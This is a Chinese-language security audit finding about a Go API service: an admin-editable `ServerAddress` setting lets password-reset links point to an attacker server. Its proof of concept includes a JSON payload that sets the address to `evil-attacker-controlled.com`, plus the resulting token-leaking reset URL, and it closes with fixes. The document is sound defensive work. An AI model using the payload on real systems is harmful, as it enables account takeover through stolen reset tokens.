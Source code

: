 ### 4. 密码重置链接操纵 (通过可控的 `ServerAddress` 配置)

*   **漏洞类型 (CWE):** CWE-16: 配置不当 (导致安全特性失效或被利用)
*   **受影响组件:**
    *   `controller/misc.go` (函数 `SendPasswordResetEmail`)
    *   `controller/option.go` (函数 `UpdateOption`, 如果允许修改 `ServerAddress` Key)
    *   `model/option.go` (函数 `UpdateOption`, `updateOptionMap`)
    *   `common/config/config.go` (变量 `ServerAddress`)
*   **漏洞摘要:** 如果系统配置项 `ServerAddress` 可以被管理员通过API修改，并且这个修改后的 `ServerAddress` 被用于生成密码重置邮件中的链接，那么管理员可以将此链接指向一个由攻击者控制的服务器。当用户点击此恶意链接时，他们的密码重置令牌可能会通过URL参数或Referer头泄露给攻击者的服务器，从而允许攻击者接管用户账户。
*   **分析与发现:**
    *   `controller/misc.go` 中的 `SendPasswordResetEmail` 函数使用 `config.ServerAddress` 来构造密码重置链接: `link := fmt.Sprintf("%s/user/reset?email=%s&token=%s", config.ServerAddress, email, code)`。
    *   `config.ServerAddress` 在 `common/config/config.go` 中有一个硬编码的默认值 `http://localhost:3000`。
    *   系统配置项通过 `controller/option.go` 的 `UpdateOption` API进行管理，并通过 `model/option.go` 存入数据库并更新内存中的 `config.OptionMap` 及相应的 `config` 变量。
    *   如果 "ServerAddress" 是 `model.Option` 表中允许通过 `UpdateOption` API 修改的 `Key` 之一，那么管理员就可以将其值修改为任意想要的URL。
    *   一旦修改，新发送的密码重置邮件中的链接将会使用这个被篡改的 `ServerAddress`。
*   **安全审计师评估:**
    *   **可达性:** 外部可访问API。需要管理员权限才能修改 `ServerAddress` 配置。
    *   **所需权限:** 管理员。
    *   **潜在影响:** 高。如果用户点击了指向恶意服务器的密码重置链接，攻击者可以捕获到重置令牌，然后用该令牌为用户的账户设置新密码，从而完全接管账户。
*   **概念验证 (PoC):**
    *   **分类:** 内部网络 (依赖管理员权限，用以攻击其他用户)。
    *   **PoC描述:** 管理员修改 `ServerAddress` 配置为指向一个恶意服务器的地址。然后为目标用户触发密码重置流程。
    *   **复现步骤 (假设 "ServerAddress" 可通过API修改):**
        1.  管理员登录系统。
        2.  向 `POST /api/option` 发送以下JSON payload:
            ```json
            {
                "Key": "ServerAddress",
                "Value": "http://evil-attacker-controlled.com/oneapi_phish"
            }
            ```
        3.  为目标用户 (例如, `victim@example.com`) 触发密码重置流程 (例如, 通过调用 `/api/user/reset_password?email=victim@example.com` 或类似接口)。
        4.  目标用户 `victim@example.com` 收到一封密码重置邮件。
    *   **预期结果:**
        *   邮件中的密码重置链接将形如: `http://evil-attacker-controlled.com/oneapi_phish/user/reset?email=victim@example.com&token=THE_ACTUAL_RESET_TOKEN`。
        *   当用户点击此链接时，其浏览器会向 `evil-attacker-controlled.com` 发送请求，攻击者的服务器将能从请求日志中捕获到包含 `THE_ACTUAL_RESET_TOKEN` 的完整URL。
    *   **前提条件:**
        *   攻击者已获得管理员权限。
        *   系统配置项 "ServerAddress" 允许通过 `controller/option.go` 的 `UpdateOption` 接口进行修改。
        *   `model/option.go` 的 `updateOptionMap` 逻辑会将数据库中的此修改应用到运行时的 `config.ServerAddress` 变量。
*   **建议修复方案:**
    *   **限制可修改范围:** `ServerAddress` 作为一个基础且关键的配置，不应允许在运行时通过API动态修改。它应该仅通过部署时的环境变量或静态配置文件来设置。从 `controller/option.go` 和 `model/option.go` 的可更新选项中移除 "ServerAddress"。
    *   **输入校验 (如果必须动态):** 如果极特殊情况下需要允许动态修改，应对输入值进行严格的白名单校验（例如，只允许特定的域名或IP地址，校验URL格式和协议）。但这通常不推荐。
    *   **安全意识:** 确保所有生成对外链接的代码都使用来自可信的、不易被篡改源的基地址。
